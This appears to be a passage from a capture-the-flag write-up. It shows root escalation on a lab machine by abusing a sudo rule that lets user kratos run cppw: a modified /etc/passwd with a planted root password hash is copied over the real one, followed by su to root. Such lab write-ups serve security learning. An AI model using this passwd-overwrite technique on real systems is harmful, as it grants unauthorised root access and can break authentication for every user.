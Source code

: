 User kratos may run the following commands on attack:
    (root) NOPASSWD: /usr/sbin/cppw

cppw overwrites the passwd or the shadow file with a file we can specify. This is a
very dangerous command as you can break the authentication for every user on the 
system. I copied out the content of passwd and saved it to newpasswd. 

Editing the values in passwd file to use a password I generated with openssl. 
newpasswd:
root:$6$xyz$/pdZy4hazXmqu1t0TACitLlKZPD4bFyRUw6ycXiOTdf4kcnkmpgmtg9zUpEE8rG9KtOWwX7kp1Gl96NCGbDk60:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
teste:x:1000:1000:teste,,,:/home/teste:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
proftpd:x:106:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:107:65534::/srv/ftp:/usr/sbin/nologin
jackob:x:1001:1001:,,,:/home/jackob:/bin/bash
kratos:x:1002:1002:,,,:/home/kratos:/bin/bash

I edited the password field for the root user. we can then use the cppw to overwrite
the '/etc/passwd` file with ours:
kratos@attack:/home/kratos$ sudo /usr/sbin/cppw newpasswd 
kratos@attack:/home/kratos$ su root
root@attack:/home/kratos#

Got the root flag and submitted it. 
